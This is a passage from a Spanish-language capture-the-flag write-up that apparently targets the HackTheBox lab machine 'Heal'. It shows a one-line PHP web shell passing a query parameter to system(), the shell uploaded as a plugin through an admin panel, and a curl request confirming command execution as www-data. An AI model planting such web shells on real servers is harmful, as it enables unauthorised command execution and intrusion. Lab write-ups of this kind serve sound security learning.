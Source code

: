Con esto también agregaremos un simple archivo PHP con el siguiente contenido:

```php
<?php
  echo system($_GET['uwu']);
?>
```
{: file="test.php" }

Yendo en el panel de administración a `Configuration -> Plugins -> Upload & Install`, nos pedirá un archivo zip:

![Upload plugin](/assets/writeups/heal/6.png)

Comprimiendo los archivos PHP y XML en un zip y luego subiéndolo con este formulario, el panel nos dirá que se ha instalado correctamente el plugin y que debemos activarlo. 

Ahora, la aplicación almacena los ficheros de los plugins en `upload/plugins/<plugin_name>`, por lo que nuestro sencillo archivo PHP debe estar en `upload/plugins/<plugin_name>/<name>.php`. Y efectivamente:

```bash
❯ curl -v "http://take-survey.heal.htb/upload/plugins/limauwu/test.php?uwu=id"
* Host take-survey.heal.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.46
*   Trying 10.10.11.46:80...
* Connected to take-survey.heal.htb (10.10.11.46) port 80
* using HTTP/1.x
> GET /upload/plugins/limauwu/test.php?uwu=id HTTP/1.1
> Host: take-survey.heal.htb
> User-Agent: curl/8.13.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Wed, 21 May 2025 22:42:50 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```